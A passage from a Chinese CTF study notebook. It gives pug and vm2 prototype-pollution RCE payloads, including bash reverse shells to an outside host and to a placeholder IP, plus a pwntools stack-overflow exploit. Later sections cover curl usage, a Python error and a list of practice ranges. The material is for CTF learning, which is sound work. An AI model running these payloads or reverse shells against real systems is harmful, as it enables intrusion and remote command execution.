        "type": "NumberLiteral",
        "value": "console.log(process.mainModule.require('child_process').execSync('id').toString())"
    }],
    "loc": {
        "start": 0,
        "end": 0
    }
}
```
##### pug
本地测试，代码如下
```javascript
const pug = require('pug');
const source = `h1= msg`;
var fn = pug.compile(source);
var html = fn({msg: 'It works'});
console.log(html);
```
此为在 `pug` 中使用模板的常见方法，运行结果为下图：

`pug.compile` 函数将字符串转换为模板函数并传递对象以供调用
```javascript
const pug = require('pug');
Object.prototype.block = {"type":"Text", "val":`<script>alert(origin)</script>`};
const source = `h1= msg`;
var fn = pug.compile(source);
var html = fn({msg: 'It works'});
console.log(html);
```

构造 `Payload`
```javascript
 {
    "__proto__.block": {        
        "type": "Text",         
        "line": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
    }
}
```
#### 例题[湖湘杯 2021 final] vote
> 考察的是 pug 模板下的 rce

源码如下：
```javascript
const path              = require('path');
const express           = require('express');
const pug               = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { hero } = unflatten(req.body);

	if (hero.name.includes('奇亚纳') || hero.name.includes('锐雯') || hero.name.includes('卡蜜尔') || hero.name.includes('菲奥娜')) {
		return res.json({
			'response': pug.compile('You #{user}, thank for your vote!')({ user:'Guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with correct name.'
		});
	}
});

module.exports = router;
```
给了 `./api/submit` 路由，然后看到 `pug.compile`
稍微修改下 `payload` ，直接使用(这道题反弹`shell`不成功)
```json
{
    "hero.name":"锐雯",
    "__proto__.block": {
        "type": "Text",
        "line": "process.mainModule.require('child_process').execSync('cat /f* > ./static/1.txt')"
    }
}
```

---
### HZNUCTF_2023_final_eznode
#### 获取源码
页面提示：尝试查看源码，通过 `dirsearch` 我们发现了 `app.js`，这是最直观的 `node.js` 配置错误造成的源码泄露
访问获得页面源码：
```javascript
const express = require('express');
const app = express();
const { VM } = require('vm2');

app.use(express.json());

const backdoor = function () {
    try {
        new VM().run({}.shellcode);
    } catch (e) {
        console.log(e);
    }
}

const isObject = obj => obj && obj.constructor && obj.constructor === Object;
const merge = (a, b) => {
    for (var attr in b) {
        if (isObject(a[attr]) && isObject(b[attr])) {
            merge(a[attr], b[attr]);
        } else {
            a[attr] = b[attr];
        }
    }
    return a
}
const clone = (a) => {
    return merge({}, a);
}


app.get('/', function (req, res) {
    res.send("POST some json shit to /.  no source code and try to find source code");
});

app.post('/', function (req, res) {
    try {
        console.log(req.body)
        var body = JSON.parse(JSON.stringify(req.body));
        var copybody = clone(body)
        if (copybody.shit) {
            backdoor()
        }
        res.send("post shit ok")
    }catch(e){
        res.send("is it shit ?")
        console.log(e)
    }
})

app.listen(3000, function () {
    console.log('start listening on port 3000');
});
```
#### 审计源码
大致意思是通过 `POST` 传递的数据会经过 `json.parse` 函数解析，然后再通过 `clone()` 函数复制到 `copybody` 变量中，最后判断该变量的 `shit` 值是否为真，然后调用 `backdoor()` 函数，在 `VM2`沙箱中执行 `{}.shellcode` 属性。
#### 分析
`clone()` 函数很明显的一个原型链污染，而 `VM2` 会执行 `shellcode` 属性的内容，那么也就是我们需要将该属性污染成 `VM2` 沙箱逃逸的 `Payload` 即可执行任意命令。
> 谷歌搜索该漏洞的 [exp](https://xz.aliyun.com/t/11859#toc-5)，然后`json`格式发送即可。

```json
{"shit":1,"__proto__":{"shellcode":"let res = import('./foo.js');res.toString.constructor(\"return this\")().process.mainModule.require(\"child_process\").execSync('bash -c \"bash -i >& /dev/tcp/ip/6666 0>&1\"').toString();"}}
```

---
## Crypto

---
## Pwn
### BJDCTF_2020_babystack2.0
```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[12]; // [rsp+0h] [rbp-10h] BYREF
  size_t nbytes; // [rsp+Ch] [rbp-4h] BYREF

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  LODWORD(nbytes) = 0;
  puts("**********************************");
  puts("*     Welcome to the BJDCTF!     *");
  puts("* And Welcome to the bin world!  *");
  puts("*  Let's try to pwn the world!   *");
  puts("* Please told me u answer loudly!*");
  puts("[+]Are u ready?");
  puts("[+]Please input the length of your name:");
  __isoc99_scanf("%d", &nbytes);
  if ( (int)nbytes > 10 )
  {
    puts("Oops,u name is too long!");
    exit(-1);
  }
  puts("[+]What's u name?");
  read(0, buf, (unsigned int)nbytes);
  return 0;
}
```
`nbytes`，无符号整型，当输入`-1`时，会变为无符号整型的最大值，可以导致栈溢出，最后注意栈对齐。
#### Payload
```python
#!/usr/bin/env python
from pwn import *
context(os = 'linux', arch = 'amd64', log_level = 'debug')
#p = process('./pwn')
p = remote("node4.anna.nssctf.cn", "28135")
elf = ELF('./pwn')
back_door_addr = elf.sym['backdoor']
ret_addr = 0x400599 # ROPgadget --binary pwn --only "ret|pop"
offset = 0x10 + 0x8
payload = cyclic(offset) + p64(ret_addr) + p64(back_door_addr)
p.sendlineafter("[+]Please input the length of your name:\n",b'-1')
p.sendlineafter("[+]What's u name?\n", payload)
p.interactive()
```

---
## curl使用
### curl命令设置自定义的HTTP头
> curl是一个强大的命令行工具，它可以通过网络将信息传递给服务器或者从服务器获取数据。他支持很多的传输协议，尤其是HTTP/HTTPS以及其他诸如FTP/FTPS， RTSP， POP3/POP3S, SCP, IMAP/IMAPS协议等。当你使用curl向一个URL发送HTTP请求的时候，它会使用一个默认只包含必要的头部字段（如：User-Agent, Host, and Accept）的HTTP头。

使用`-v`参数展示该次请求的请求头信息(不包含数据部分)，并返回响应的报文
使用`-H`定义多个`HTTP`头部字段
```
-A(or --user-agent): 设置 "User-Agent" 字段
-b(or --cookie): 设置 "Cookie" 字段
-e(or --referer): 设置 "Referer" 字段
```
[参考资料](http://linux.cn/article-4957-1.html)

---
### curl 模拟 GET\POST 请求，以及 curl post 上传文件
#### curl GET 请求
```bash
curl localhost:9999/api/daizhige/article
```
如上，我们就可以请求到我们的数据了，如果想看到详细的请求信息，我们可以加上`-v`参数
```bash
curl localhost:9999/api/daizhige/article -v
```
#### curl POST 请求
我们可以用`-X POST`来申明我们的请求方法，用`-d`参数，来传递我们的参数。
> 所以，我们可以用 `-X PUT` 和 `-X DELETE` 来指定另外的请求方法。

```bash
curl localhost:9999/api/daizhige/article -X POST -d "title=comewords&content=articleContent"
```
如上这就是一个普通的`post`请求。
但是，一般我们的接口都是`json`格式的，这也没有问题。我们可以用`-H`参数来申明请求的`header`
```bash
curl localhost:9999/api/daizhige/article -X POST -H "Content-Type: application/json" -d '{"title":"comewords","content":"articleContent"}'
```
> so, 我们可以用 `-H` 来设置更多的 `header` 比如，用户的 `token` 之类的。

同样，我们可以用 `-v` 来查看详情。
#### curl POST 上传文件
上面的两种请求，都是只传输字符串，我们在测试上传接口的时候，会要求传输文件，其实这个对于`curl`来说，也是小菜一碟。
我们用 `-F file=@__FILE_PATH__` 的请示，传输文件即可。命令如下：
```bash
curl localhost:9999/api/v1/upimg -F "file=@/Users/fungleo/Downloads/401.png" -H "token: 222" -v
```
更多 `curl` 的使用方法，以及参数说明，可以在系统中输入 `man curl` 来进行查看。或者点击 [curl man](https://curl.haxx.se/docs/manpage.html)查看网页版的介绍
> 命令行是可以保存历史纪录的，我们使用 `ctrl + r` 快捷键可以进行历史命令搜索，这样我们可以非常方便的重复进行命令调试。

[参考资料0 - 《linux 或 mac 命令行更优雅的使用 curl 命令，以及命令行常用的快捷键说明》](https://fungleo.blog.csdn.net/article/details/105794798)
[参考资料1 - curl 模拟 GET\POST 请求，以及 curl post 上传文件](https://blog.csdn.net/FungLeo/article/details/80703365)

---
## 报错学习
==**`AttributeError: module 'string' has no attribute 'letters'`**==
你遇到的错误信息表明在 `Python` 的 `string` 模块中没有 `letters` 这个属性。这是因为在 `Python 3` 中，`string.letters` 已被移除。相应的，`string` 模块提供了 `string.ascii_letters` 来表示所有字母字符。

---
## 比赛WP记录
[2023浙江省大学生网络与信息安全决赛-Misc篇](https://blog.zgsec.cn/archives/504.html?scroll=comment-98)

---
## 渗透、应急、代码审计 20 个靶场
### <font color=orange>**渗透测试靶机**</font>
#### <font color=red>**1. Metasploitable**</font>
- <font color=red>**功能：**</font>提供了一系列的安全漏洞，适用于各种渗透测试练习。
- <font color=red>**靶场地址：**</font>通常作为`Metasploit`框架的一部分提供，可以在本地安装。
- <font color=red>**靶机WP链接：**</font>`Metasploitable`官方文档。

#### <font color=red>**2. OWASP Broken Web Applications (BWA)**</font>
- <font color=red>**功能：**</font>模拟了常见的`Web`应用安全漏洞，适合`Web`渗透测试练习。
- <font color=red>**靶场地址：**</font>可以在本地安装或通过云服务访问。
- <font color=red>**靶机WP链接：**</font>`OWASP BWA GitHub`

#### <font color=red>**3. DVWA (Damn Vulnerable Web Application)**</font>
- <font color=red>**功能：**</font>设计有各种安全漏洞，适合学习和测试`Web`应用安全。
- <font color=red>**靶场地址：**</font>可以在本地安装。
- <font color=red>**靶机WP链接：**</font>`DVWA GitHub`

#### <font color=red>**4. WebGoat**</font>
- <font color=red>**功能：**</font>由`OWASP`提供，专注于`Web`应用安全教学，包含多种漏洞。
- <font color=red>**靶场地址：**</font>可以在本地安装或在线访问。
- <font color=red>**靶机WP链接：**</font>`WebGoat GitHub`

#### <font color=red>**5. Juice Shop**</font>
- <font color=red>**功能：**</font>一个故意不安全的`Node.js`应用程序，适合练习现代`Web`应用安全技能。
- <font color=red>**靶场地址：**</font>可以在本地安装或在线访问。
- <font color=red>**靶机WP链接：**</font>`Juice Shop GitHub`

#### <font color=red>**6. PentesterLab**</font>
- <font color=red>**功能：**</font>提供了多种靶场，包括`Web`应用、网络等，适合不同层次的渗透测试练习。
- <font color=red>**靶场地址：**</font>需要注册账户后在线访问。
- <font color=red>**靶机WP链接：**</font>`PentesterLab`

#### <font color=red>**7. VulnHub**</font>
- <font color=red>**功能：**</font>提供了大量的免费和付费渗透测试靶场，涵盖了各种技术和场景。
- <font color=red>**靶场地址：**</font>可以在本地下载安装。
- <font color=red>**靶机WP链接：**</font>`VulnHub`

#### <font color=red>**8. Hack The Box**</font>
- <font color=red>**功能：**</font>在线渗透测试平台，提供了一系列的靶机和`CTF`挑战。
- <font color=red>**靶场地址：**</font>需要注册账户后在线访问。
- <font color=red>**靶机WP链接：**</font>`Hack The Box`

#### <font color=red>**9. TryHackMe**</font>
- <font color=red>**功能：**</font>类似于`Hack The Box`，提供了各种渗透测试和`CTF`挑战。
- <font color=red>**靶场地址：**</font>需要注册账户后在线访问。
- <font color=red>**靶机WP链接：**</font>`TryHackMe`

### <font color=orange>**应急响应靶机**</font>
#### <font color=red>**1. 玄机应急靶场**</font>
- <font color=red>**描述：**</font>玄机应急靶场是一个精心开发的应急响应靶场，包含安全溯源、`webshell`分析、流量分析、日志分析、等保测评等多种场景。这个靶场旨在模拟各种网络攻击和紧急情况，训练应急反应能力和团队协作技巧。
- <font color=red>**下载地址：**</font>目前靶场还在内测阶段，需要邀请码注册。注册地址：`https://xj.edisec.net`。

#### <font color=red>**2. Vulntarget-N靶场**</font>
- <font color=red>**描述：**</font>`Vulntarget-N`是一个模拟全球化勒索病毒高发环境下的应急响应和取证分析案例。它模拟了一个正常运行的业务服务被勒索病毒攻击的情景，要求用户进行应急响应并取证分析。
- <font color=red>**下载地址：**</font>靶场下载链接：`https://pan.baidu.com/s/1sv9qdionf4ptuliix5hefg`，提取码：`2dwqb`。

#### <font color=red>**3. 知攻善防实验室靶场**</font>
- <font color=red>**描述：**</font>知攻善防实验室提供了多个应急响应靶场，包括`Linux`应急靶场和`Windows Web`应急靶场。这些靶场涵盖了`Web`缓冲区、主机缓冲区、域缓冲区、工控缓冲区等多个方面，适合进行应急响应的练习和测试。
- <font color=red>**下载地址：**</font>
  - `Linux`应急1靶机下载链接：`https://pan.quark.cn/s/3d1ad0832c54`
  - `Linux`应急2靶机下载链接：`https://pan.quark.cn/s/d5a138b33c3b`
  - `Windows Web`应急1靶机下载链接：`https://pan.quark.cn/s/72c8b31e3bc2`

#### <font color=red>**4. 帕鲁杯应急响应靶场**</font>
- <font color=red>**描述：**</font>帕鲁杯应急响应靶场是一个体系化的靶场环境，能够还原真实的应急场景。它包含各个区域的靶场环境，适合进行全面的应急响应练习。
- <font color=red>**下载地址：**</font>靶场下载链接：`https://pan.quark.cn/s/35fab7a91c79`。

### <font color=orange>**代码审计靶机**</font>
#### <font color='#00FF00'>**Java代码审计靶场**</font>
- <font color=red>**项目名称：**</font>`Hello-Java-Sec`
- <font color=red>**项目描述：**</font>这是一个面向安全开发的`Java`漏洞代码审计靶场，提供了丰富的学习资源。
- <font color=red>**项目地址：**</font>`GitHub`

#### <font color='#00FF00'>**PHP代码审计靶场**</font>
- <font color=red>**项目名称：**</font>`php-sec-code`
- <font color=red>**项目描述：**</font>这是一个专门针对`PHP`代码审计的学习靶场，每个漏洞类型代码默认存在安全漏洞，相关修复代码在注释里。
- <font color=red>**项目地址：**</font>`GitHub`

#### <font color='#00FF00'>**Web应用安全审计靶场**</font>
- <font color=red>**项目名称：**</font>`DVWA (Damn Vulnerable Web Application)`
- <font color=red>**项目描述：**</font>设计有各种安全漏洞，适合学习和测试`Web`应用安全。
- <font color=red>**项目地址：**</font>`GitHub`

#### <font color='#00FF00'>**综合性代码审计靶场**</font>
- <font color=red>**项目名称：**</font>`Secure Code Warrior Learning Platform`
- <font color=red>**项目描述：**</font>提供了丰富的学习资源，包括五十多种编程框架和超过`6000`个跨网络、移动、`API`、云等方面的代码安全编程内容。
- <font color=red>**项目地址：**</font>官方网站

---
## 待整理文章
https://blog.csdn.net/weixin_50750081/article/details/135975660
https://blog.csdn.net/Adminxe/article/details/105918000
https://blog.csdn.net/qq_65597930/article/details/143831976
https://blog.csdn.net/yaorongke/article/details/119089190
https://www.cnblogs.com/nanvon/p/15720171.html
https://blog.csdn.net/weixin_45895237/article/details/123566782
https://feng-zz-pwn.github.io/2024/05/29/%E5%B0%8F%E7%B1%B3AX9000%E8%B7%AF%E7%94%B1%E5%99%A8%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/
https://blog.csdn.net/jgw2008/article/details/135645594
https://www.cnblogs.com/jasy/p/14354125.html
https://blog.csdn.net/whatday/article/details/85247901
https://blog.csdn.net/weixin_47306547/article/details/120285264
https://blog.csdn.net/Suyebiubiu/article/details/108602854
[2023浙江省大学生网络与信息安全决赛-Misc篇](https://blog.zgsec.cn/archives/504.html?scroll=comment-98)